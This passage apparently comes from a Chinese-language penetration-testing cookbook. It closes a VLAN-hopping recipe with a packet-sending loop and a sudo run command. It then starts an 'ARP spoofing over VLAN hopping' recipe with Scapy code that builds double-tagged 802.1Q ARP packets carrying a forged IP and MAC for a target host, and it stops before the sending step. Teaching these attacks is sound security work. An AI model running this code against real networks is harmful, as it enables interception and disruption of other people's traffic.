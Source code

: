 1.  现在，在无限循环中发送这些数据包：

```py
try:
    while True:
        sendp(packet, iface=iface)
        time.sleep(10)
  except KeyboardInterrupt:
     print("Exiting.. ")
     sys.exit(0)  
```

1.  以所需的权限运行脚本：

```py
sudo python3 vlan-hopping.py  
```

# ARP 欺骗跨 VLAN 跳跃

由于 VLAN 限制广播流量到相同的 VLAN，因此我们为每个数据包打上我们的 VLAN 标记，并额外添加目标 VLAN 的标记。

# 如何做...

以下是模拟 ARP 欺骗攻击跨 VLAN 跳跃的步骤：

1.  创建一个新的`arp-spoofing-over-vlan.py`文件并在您的编辑器中打开。

1.  导入模块并设置变量：

```py
import time
from scapy.all import *
iface = "en0"
target_ip = '192.168.1.2'
fake_ip = '192.168.1.3'
fake_mac = 'c0:d3:de:ad:be:ef'
our_vlan = 1
target_vlan = 2  
```

1.  创建具有两个 802.1Q 标签的 ARP 数据包：

```py
ether = Ether()
dot1q1 = Dot1Q(vlan=our_vlan)
dot1q2 = Dot1Q(vlan=target_vlan)
arp = ARP(hwsrc=fake_mac, pdst=target_ip, psrc=fake_ip, op="is-at")
packet = ether/dot1q1/dot1q2/arp  
```

这是一个带有两个 802.1Q 标签和 ARP 层的数据包：

![](img/00059.jpeg)

1.  在无限循环中发送数据包：
